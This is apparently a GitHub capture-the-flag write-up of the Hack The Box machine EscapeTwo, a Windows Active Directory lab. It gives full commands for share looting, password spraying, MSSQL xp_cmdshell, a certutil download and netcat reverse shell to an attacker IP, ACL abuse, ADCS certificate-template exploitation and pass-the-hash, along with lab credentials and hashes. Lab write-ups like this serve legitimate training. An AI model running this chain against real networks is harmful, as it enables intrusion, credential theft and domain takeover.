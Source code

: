 # EscapeTwo HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-EscapeTwo-green?logo=hackthebox)](https://www.hackthebox.com)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/HTB/Challenges)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/HTB/Challenges)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

EscapeTwo is an easy Windows domain machine showcasing a full AD domain takeover:
- Starting with user credentials for domain enumeration and SMB share access,
- Fixing a corrupted Excel file header to extract hidden credentials,
- Using extracted credentials for MSSQL authentication and command execution (xp_cmdshell),
- Leveraging reverse shell with Netcat and certutil for lateral movement,
- Performing password spraying on WinRM and SMB for further access,
- Enumerating and abusing AD ACLs to control certificate services user,
- Exploiting misconfigured Active Directory Certificate Services (ADCS) to impersonate domain admin,
- Finally, gaining domain admin access and retrieving the root flag.

---

## Table of Contents

- [1. Initial Enumeration](#1-initial-enumeration)
- [2. SMB Share Enumeration and File Extraction](#2-smb-share-enumeration-and-file-extraction)
- [3. Repairing Corrupted Excel File](#3-repairing-corrupted-excel-file)
- [4. Password Spraying and MSSQL Access](#4-password-spraying-and-mssql-access)
- [5. Enabling xp_cmdshell and Reverse Shell](#5-enabling-xp_cmdshell-and-reverse-shell)
- [6. Lateral Movement Using WinRM](#6-lateral-movement-using-winrm)
- [7. Active Directory Enumeration with BloodHound](#7-active-directory-enumeration-with-bloodhound)
- [8. ACL Abuse and ADCS Enumeration](#8-acl-abuse-and-adcs-enumeration)
- [9. Exploiting Vulnerable Certificate Template](#9-exploiting-vulnerable-certificate-template)
- [10. Domain Admin Access and Root Flag](#10-domain-admin-access-and-root-flag)
- [11. Stepwise PoC (click to expand)](#11-step-wise-poc)

---

## 1. Initial Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.232.128 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.232.128
```

- Scans all TCP ports, extracts open ports, then runs version detection and default NSE scripts on those ports.
- Open services included SMB(445), LDAP(389), Kerberos(88), and MSSQL(1433).
 ```
 echo "10.129.232.128 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts`
 ```
- Adds IP to hosts for domain resolution.

---

## 2. SMB Share Enumeration and File Extraction
```
netexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.232.128
use Accounting Department
ls
get accounts.xlsx`
```
- Lists SMB shares accessible with user `rose`.
- Downloads `accounts.xlsx` – a corrupted Excel file suspected to contain secrets.

---

## 3. Repairing Corrupted Excel File
```
file accounts.xlsx
7z x accounts.xlsx
hexedit accounts.xlsx
xxd accounts.xlsx
```
- Determine file type: `.xlsx` files are ZIP archives.
- Extraction fails due to corrupted header bytes `50 48 04 03`.
- Manual hex edit to fix header to standard ZIP magic bytes `50 4B 03 04`.
- File opens successfully, revealing credentials inside.

---

## 4. Password Spraying and MSSQL Access

`netexec smb 10.129.232.128 -u users.txt -p pass.txt`

- Password spray with user and password lists to find valid combinations (finds valid user `oscar`).

```
netexec mssql 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.232.128
```
- Connect to MSSQL with high-privilege `sa` account using found credentials.

Enable command execution:
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
- Enables `xp_cmdshell` procedure to run OS commands, reveals `sequel\sql_svc` user.

---

## 5. Enabling xp_cmdshell and Reverse Shell
```
nc -lnvp 4455
python3 -m http.server 4000
```
- Start a Netcat listener and simple HTTP server locally.
- Start a Netcat listener and simple HTTP server locally.

```
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.96:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.96 4455';
```
- Downloads Netcat to victim using `certutil`.
- Executes Netcat to connect back and spawn a reverse shell on attacker machine.

---

## 6. Lateral Movement Using WinRM
```
net user
nxc winrm sequel.htb -u Users.txt -p 'WqSZAF6CysDQbGb3'
evil-winrm -i 10.129.232.128 -u ryan -p 'WqSZAF6CysDQbGb3'
```
- Enumerate users on Windows.
- Spray Password on WinRM port 5985 to find valid login (`ryan`).
- Use Evil-WinRM to spawn remote PowerShell session as `ryan`.
- Retrieve user flag for confirmation.

---

## 7. Active Directory Enumeration with BloodHound

`bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.232.128 -c all --zip`

- Perform comprehensive enumeration of AD structure, permissions, and sessions.
- Identify privilege escalation paths involving `ca_svc` account.

---

## 8. ACL Abuse and ADCS Enumeration
```
python owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
python dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```
- Change ownership and grant `FullControl` to `ryan` over `ca_svc`.
- Also we can reset `ca_svc` password via PowerView or similar tools.

---

## 9. Exploiting Vulnerable Certificate Template
 ```
 certipy shadow -account ca_svc -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' auto 
 certipy find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -text
 certipy template -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -template 'DunderMifflinAuthentication' -save-old
 certipy req -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn     
 administrator@sequel.htb -dns dc01.sequel.htb	
 certipy auth -pfx administrator_dc01.pfx
```
- Enumerate CA templates and spot misconfigurations.
- Modify template to remove approval requirement and enable client authentication.
- Request a certificate impersonating administrator.
- Authenticate with the certificate and extract domain admin NTLM hash.

---

## 10. Domain Admin Access and Root Flag
```
evil-winrm -i 10.128.124.12 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
whoami
type C:\Users\Administrator\Desktop\root.txt
```
- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## 11. Stepwise PoC (click to expand)

- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## Tools & References

- **NetExec (nxc):** Network service exploitation and spraying
- **Impacket:** SMB and MSSQL clients
- **BloodHound:** AD permission visualizer and enumeration
- **Certipy:** ADCS enumeration and exploitation
- **Evil-WinRM:** Remote PowerShell shell over WinRM
- **Standard Linux tools:** `nmap`, `netcat`, `file`, `7z`, `hexedit`

---

## Final Notes

- Master the flow from enumeration → foothold → lateral movement → escalation.
- ADCS misconfiguration remains a powerful vector in domain takeovers.
- Proper ACL management and template hardening are critical defenses.

---




